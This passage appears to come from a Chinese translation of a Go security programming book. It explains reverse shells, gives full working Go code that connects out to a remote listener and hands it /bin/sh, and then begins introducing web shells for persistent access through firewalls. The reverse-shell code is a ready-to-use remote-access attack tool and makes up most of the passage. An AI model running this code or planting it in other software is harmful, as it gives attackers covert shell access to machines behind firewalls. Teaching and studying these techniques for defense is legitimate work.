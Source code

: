 # 创建反向绑定 shell

反向绑定 shell 克服了防火墙和 NAT 的问题。它不是监听传入连接，而是向远程服务器（你控制并监听的服务器）拨号。当你在自己的机器上收到连接时，你就有了一个在防火墙后面的计算机上运行的 shell。

这个示例使用明文 TCP 套接字，但你可以很容易地用`tls.Dial()`替换`net.Dial()`。第六章，*密码学*，有 TLS 客户端和服务器的示例，如果你想修改这些示例来使用 TLS。

```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) < 2 {
      fmt.Println("Usage: " + os.Args[0] + " <remoteAddress>")
      fmt.Println("Example: " + os.Args[0] + " 192.168.0.27:9999")
      os.Exit(1)
   }

   // Connect to remote listener
   remoteConn, err := net.Dial("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Connection established. Launching shell.")

   command := exec.Command(shell)
   // Take advantage of reader/writer interfaces to tie inputs/outputs
   command.Stdin = remoteConn
   command.Stdout = remoteConn
   command.Stderr = remoteConn
   command.Run()
} 
```

# 创建 Web shell

Web shell 类似于绑定 shell，但是它不是作为原始 TCP 套接字进行监听和通信，而是作为 HTTP 服务器进行监听和通信。这是一种创建对机器持久访问的有用方法。

Web shell 可能是必要的一个原因是防火墙或其他网络限制。HTTP 流量可能会与其他流量有所不同。有时，`80`和`443`端口是防火墙允许的唯一端口。一些网络可能会检查流量，以确保只有 HTTP 格式的请求被允许通过。
